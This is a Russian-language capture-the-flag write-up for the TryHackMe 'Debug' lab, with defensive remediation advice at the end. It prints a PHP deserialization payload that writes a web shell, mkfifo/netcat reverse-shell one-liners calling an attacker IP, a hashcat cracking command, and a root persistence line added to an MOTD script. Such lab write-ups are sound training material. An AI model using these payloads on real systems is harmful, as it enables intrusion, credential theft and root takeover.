# TryHackMe - Debug

## 1. Reconnaissance (Разведка)

Первым шагом было сканирование портов с помощью **RustScan** для определения периметра атаки.

```bash
rustscan -a 10.65.138.178 -- -sV
```
**Результат:** Обнаружены открытые порты 22 (SSH) и 80 (HTTP).



На порту 80 запущен веб-сервер Apache 2.4.18. При переходе открывается стандартная страница Apache.



Был запущен перебор файлов и директорий через **FFUF**:

```bash
ffuf -w wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.65.138.178/FUZZ -e .php,.html,.txt
```



**Результат:** Обнаружена интересная директория /backup и файл /index.php.

При переходе на /index.php открывается форма обратной связи.




## 2. Initial Access (Первоначальный доступ)

В директории /backup находился файл index.php.bak. Изучив его исходный код, была обнаружена уязвимость. В коде присутствует класс FormSubmit с магическим методом __destruct(), который вызывает file_put_contents().




Но ключевая уязвимость находится в строках 216-217:

```php
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);
```



Приложение передает пользовательский параметр debug напрямую в функцию unserialize(). Это позволяет создать сериализованный объект класса FormSubmit, при уничтожении которого (в конце выполнения скрипта) будет вызван метод __destruct(), записывающий произвольный контент в произвольный файл (через свойство $form_file).

## 3. Foothold (Закрепление)

Был сформирован сериализованный payload, который создает объект FormSubmit, указывает путь для записи (shell.php) и передает PHP-код веб-шелла в свойство message:

```php
O:10:"FormSubmit":2:{s:9:"form_file";s:9:"shell.php";s:7:"message";s:24:"<?=system($_GET[cmd]);?>";}
```

Отправив этот payload через параметр debug с помощью Burp Suite, сервер вернул сообщение об успехе, и файл shell.php был создан:



Проверив работу веб-шелла, передав команду ?cmd=id. Сервер вернул uid=33(www-data).



Затем был инициирован Reverse Shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [local ip] 444 >/tmp/f
```



## 4. Privilege Escalation (Повышение привилегий)

Среди файлов в текущей директории находился .htpasswd, содержащий хэш пароля пользователя `james`.



Пароль соответствующий данному хэшу был подобран с помощью **Hashcat** (режим 1600 для Apache APR1 MD5) и словаря rockyou.txt.

```bash
hashcat -w 4 -m 1600 '$apr1$zPZM...' wordlist/rockyou.txt
```



Используя найденный пароль, переключившись на james был прочитан User флаг:



## 5. Root

В домашней директории пользователя `james` был обнаружен файл `Note-To-James.txt`. В записке (от имени `root`) упоминалось, что Джеймсу дали права на изменение "ssh welcome message" (сообщения при входе по SSH).



Проверив директорию, отвечающую за формирование MOTD: /etc/update-motd.d/. Вывод ls -la показал, что файлы в этой директории принадлежат root:james и имеют права -rwxrwxr-x. Это означало, что james может изменять эти скрипты, а выполняются они от имени root при каждом входе по SSH. 

Была добавлена команда для Reverse Shell в конец файла 00-header, который выполняется первым при логине:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.155.162 4444 >/tmp/f' >> /etc/update-motd.d/00-header
```



Был запущен слушатель nc на порту 4444, после чего осуществлено подключение к серверу по SSH под пользователем `james` с полученным ранее паролем. При успешном логине скрипт MOTD выполнился от имени root и отправил Reverse Shell.




Получив права root, был прочитан root флаг:



## Remediation (Рекомендации по устранению)

Для предотвращения подобных атак необходимо:

1. **Безопасная десериализация:** Категорически запрещено передавать пользовательский ввод в функцию unserialize(). Если это необходимо, используйте безопасные форматы (например, JSON) или строго ограничивайте разрешенные классы (через опцию allowed_classes).
2. **Доступ к файлам:** Удалить файлы резервных копий (index.php.bak) из корневой директории веб-сервера. Настроить корректные права доступа к .htpasswd.
3. **Настройка сервера:** Файлы в /etc/update-motd.d/ не должны быть доступны для записи обычным пользователям. Права должны быть 755 (владелец root). Принцип наименьших привилегий (Least Privilege) должен строго соблюдаться.
4. **Управление паролями:** Использовать надежные алгоритмы хэширования паролей (например, bcrypt) вместо устаревшего MD5 (APR1).